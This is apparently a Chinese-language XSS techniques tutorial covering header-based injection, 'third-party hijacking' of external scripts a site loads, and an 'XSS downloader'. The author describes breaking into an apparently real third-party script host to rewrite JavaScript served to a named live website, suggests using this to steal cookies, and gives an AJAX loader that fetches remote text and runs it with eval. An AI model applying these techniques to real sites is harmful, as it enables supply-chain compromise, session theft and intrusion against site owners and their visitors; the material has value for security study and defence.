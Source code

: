 # XSS技巧

## 01. 前言

遗留的问题

```
问1：只能更改IP么？
答1：不是，这里只是一个例子，大家需要发散思维。Referer User-Agent Cookie 等都可以的。
问2：我一个站也是http头部获取用户信息地方存在注入，可否xss？
答2：存在注入说明你把用户信息放到数据库里了，如果不显示前/后台显现用户信息，则不存在XSS。
```

## 02. 第三方劫持 (外调J/C)
本方法是我看长短短贴代码时知晓的，这篇文章我只是把这个攻击手法整理了出来，来说明这个漏洞，这个攻击手法并不是我发现的，我也不是太清楚是谁。“第三方劫持”就是把资源域的服务器的权限拿下，替换相关资源，采用‘迂回式’的渗透方式。

** PS ** ：J/C指的是javascript、css，其实还包括flash、etc、html等等，只是这个不经常使用而已，所以就不说了。

从字面上大家也可以猜出来，这是种什么攻击手法。名字里的"外调"不是从目标网站上插入新的J/C。而是在目标网站上找到不是本站的J/C。然后渗透那个网站，重写J/C。来达到渗透目标网站。

可是要怎么找到非本站的J/C呢？！不要担心， “长短短”已经写好相关的代码了，获取非本站的J/C。

```
for(var i=0,tags=document.querySelectorAll('iframe[src],frame[src],script[src],link[rel=stylesheet],object[data],embed[src]'),tag;tag=tags[i];i++){
  var a = document.createElement('a');
  a.href = tag.src||tag.href||tag.data;
  if(a.hostname!=location.hostname){
    console.warn(location.hostname+' 发现第三方资源['+tag.localName+']:'+a.href);
  }
}
```

把这段输入在F12“审查元素”里”控制台”里，回车就OK。

OK，原理说完了。我们来个实例。

我们在http://www.zj4000.com/ 网站上使用上面的代码，获取到，其中有个www.xss8.pw的js。

![](/attackUsers/xss/image/xss-33.png)

那么我就渗透他试试，20分钟后…….好了，渗透完了。我们现在来重写JS，现在我们先测试下能不能用，我先在1.js里写上`alert(&#039;xss&#039;);`

![](/attackUsers/xss/image/xss-34.png)

现在，我们再来看看 www.zj4000.com 怎么样了。

![](/attackUsers/xss/image/xss-35.png)

看来，已经被成功调用了。我这里没有用css来说，因为js比较规范点，而且用css来实现我这上面的功能，同理SWF也可以实现上面的功能。我相信大家都会了，不需要我再多说什么了。

现在你已经掌握了一个可随时变化的储蓄xss，我们可以自己写个脚本，来获取目标的cookies。

这些我就不说了，我只是把这门冷门但是比较有潜力的攻击手法和大家说下。这个攻击手法比较有局限性，只要网站有着可以实现攻击环境， 那么的危害将会非常大。

想继续了解的可以看看黑哥写的WEBsec2-public.ppt

## 03 XSS downloader（XSS下载器）
此方法是由cnn4ry在《XSS跨站脚本攻击剖析与防御》里提起过。

这个技术其实就是把反射和储蓄结合起来，把核心代码写在网站上，然后以XSS触发并调用代码，实现攻击。

在《XSS跨转脚本攻击剖析与防御》里的代码不太正确，没有使用onreadystatechange的readyState来判断是否请求完成，也没有用status判断页面是否存在。导致没符合这几个条件的情况下就输出了，此时内容是空的，所以不会成功，我就自己写了一个ajax获取的。

下面是代码

```html
<html>
    <head>
        <title>ajax</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                             if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                             {
                                 request_text=xmlhttp.responseText;
                                 var a = request_text.indexOf("woaini")+6;
                                 var b = request_text.indexOf("niaiwo");
                                 eval(request_text.substring(a,b));
                             }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```




